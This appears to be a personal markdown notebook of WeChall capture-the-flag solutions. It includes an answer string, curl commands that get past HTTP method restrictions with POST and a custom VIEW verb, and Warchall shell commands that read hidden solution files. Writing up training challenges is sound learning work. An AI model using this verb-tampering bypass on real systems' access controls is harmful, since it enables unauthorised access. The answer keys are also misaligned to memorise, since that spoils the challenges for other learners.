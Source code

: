 http://www.caesum.com/handbook/Stegsolve.jar

```
HMRDMMIDHIHN
```


### Training: GPG (Crypto, Training)
Gmail -> FlowCrypt (extension)


### Limited Access (Exploit, HTTP)
Limit GET, but not POST!

```
curl -b cookie.file -c cookie.file -X POST -d "username=Ranger" -d "password=********" -d "login=Login" http://www.wechall.net/login

curl -b cookie.file -c cookie.file -X POST http://www.wechall.net/challenge/wannabe7331/limited_access/protected/protected.php
```


### Limited Access Too (Exploit, HTTP)
Limit GET POST HEAD PUT DELETE CONNECT OPTIONS, but not VIEW!

curl -b cookie.file -c cookie.file -X POST -d "username=Ranger" -d "password=********" -d "login=Login" http://www.wechall.net/login

curl -b cookie.file -c cookie.file -X VIEW http://www.wechall.net/challenge/wannabe7331/limited_access_too/protected/protected.php
```


### Shadowlamb - Chapter I (Fun)
### Shadowlamb - Chapter II (Fun)
### Shadowlamb - Chapter III (Fun)
### Shadowlamb - Chapter IV (Fun, Stegano)
Play the IRC mmorpg game...

Chrome - CIRC extension

Try this source: https://github.com/gizmore/gwf3/blob/9a73e95c9d80b9482e88c69009c7a8c651860a4d/www/challenge/lamb/shadowlamb1/WC5Lamb_Solution.php

But LAMB_PASSWORD2 is UNKNOWN ...


### Training: Warchall - The Beginning (Realistic, Linux, Shell, Warchall)
Enable logfile EMails -> (RE)SET your SSH account -> ssh -p 19198 ranger@warchall.net

```bash
#Solution0
cat /home/level/0/README.txt

#Solution1
ls -R /home/level/1
/home/level/1/blue/pill/hats/gray/solution/is/SOLUTION.txt

#Solution2
cat /home/level/2/.porb/.solution

#Solution3
cat /home/level/3/.bash_history

#Solution4
chmod 777 /home/user/ranger/level/4/README.txt
```